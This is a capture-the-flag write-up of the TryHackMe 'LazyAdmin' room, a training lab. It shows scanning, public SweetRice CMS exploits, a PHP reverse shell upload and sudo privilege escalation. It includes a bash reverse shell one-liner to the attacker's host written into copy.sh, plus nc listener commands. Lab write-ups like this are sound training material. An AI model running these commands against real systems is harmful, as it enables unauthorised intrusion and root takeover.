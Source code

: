 # LazyAdmin

**Room Link:** [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)



### Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```



<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit sweet rice
searchsploit -m php/webapps/40718.txt
```

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://crackstation.net/](https://crackstation.net/)

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Tried to ssh with the credentials but it didn't work, went back to searchsploit because I saw a python script before but it needed credentials. I modified the script to take the input because I waa lazy.&#x20;

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
searchsploit sweet rice
searchsploit -m php/webapps/40716.py
python 40716.py
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

The php reverse shell setups up a reverse shell so I setup a nc listener on Kali and went to the URL the script mentioned.

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

The user has access to run backup.pl without a password, I checked the the file and all it does is run a bash script. We have access to write to copy.sh so I changed it to a reverse shell one liner and setup my listener on Kali.

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8080
```

**Victim**

```
echo "bash -c 'bash -i >& /dev/tcp/$KALI/8080 0>&1'"> copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>















